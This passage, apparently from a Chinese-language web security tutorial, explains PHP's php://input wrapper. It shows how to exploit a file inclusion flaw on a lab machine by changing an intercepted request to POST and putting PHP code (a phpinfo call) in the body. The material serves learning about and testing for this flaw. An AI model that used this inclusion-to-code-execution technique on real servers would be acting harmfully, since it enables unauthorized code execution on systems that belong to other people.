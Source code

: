   + **`php://input`：**`input`标识符允许读取原始的POST数据。它是一个只读流，可以多次打开和读取。这个伪协议不受`php.ini`中的`post_max_size`设置的影响。它对于获取非经过处理的 POST 数据非常有用，特别是对于处理 JSON 或 XML 数据的 RESTful API。

    使用`php://input`首先要打开输入流：

    ```php
    http://192.168.206.131/security/fileinc.php?page=php://input
    ```

    然后可以利用bp向服务器发包，由于已经开启了POST输入流，所以可以定义任意的POST数据，我们向POST中写入恶意代码：

    先抓包：

    ```http
    GET /security/fileinc.php?page=php://input HTTP/1.1
    Host: 192.168.206.131
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate, br
    Connection: close
    Upgrade-Insecure-Requests: 1
    ```

    > 这里需要把开头的GET请求改为POST请求。

    ```http
    POST /security/fileinc.php?page=php://input HTTP/1.1
    Host: 192.168.206.131
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate, br
    Connection: close
    Upgrade-Insecure-Requests: 1
    
    <?php echo phpinfo(); ?>
    ```

    然后我们就可以在后面自定义POST请求的Data了。这里定义一段PHP代码，看看效果：

    ![image-20240126100514437](../img/image-20240126100514437.png)
